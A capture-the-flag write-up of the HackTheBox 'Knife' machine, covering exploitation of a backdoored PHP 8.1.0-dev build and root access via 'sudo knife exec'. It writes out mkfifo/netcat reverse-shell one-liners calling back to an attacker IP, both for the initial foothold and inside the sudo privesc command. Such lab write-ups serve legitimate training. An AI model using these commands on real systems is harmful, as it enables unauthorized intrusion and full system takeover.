







# Knife -- HackTheBox (write-up)

**Difficulty:** Easy / Beginner
**Box:** Knife (HackTheBox)
**Author:** dsec
**Date:** 2025-04-16

---

## TL;DR

### PHP 8.1.0-dev backdoor via User-Agent header gave initial shell. Privesc through sudo knife exec to root.
---
## Target info

- Host: HackTheBox target
- Services discovered via nmap
---
## Enumeration

Ran nmap:







Identified `PHP 8.1.0-dev` -- this version has a known backdoor.

Found the exploit: <https://www.exploit-db.com/exploits/49933>

---
## Initial foothold

Used the PHP 8.1.0-dev exploit:



Can't cd in the initial shell. Tried regular shell stabilization but nothing worked. Upgraded to a reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.133 4444 >/tmp/f
```

```bash
nc -lvnp 4444
```

Got an interactive shell.

---
## Privesc



Used `sudo knife exec` to spawn a root shell:

```bash
sudo knife exec -E 'exec "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.133 6969 >/tmp/f"'
```

```bash
nc -lvnp 6969
```

Root shell.

---
## Alternate initial shell (0xdf method)

0xdf explains a cleaner initial shell method:



Replace `User-Agent` with `User-Agentt` and add the zerodium system command to spawn a shell.



---
## Lessons & takeaways

- Check PHP version headers -- dev versions can have backdoors
- When a limited shell can't cd, upgrade to a full reverse shell
- `knife exec` with sudo is an easy privesc vector
---
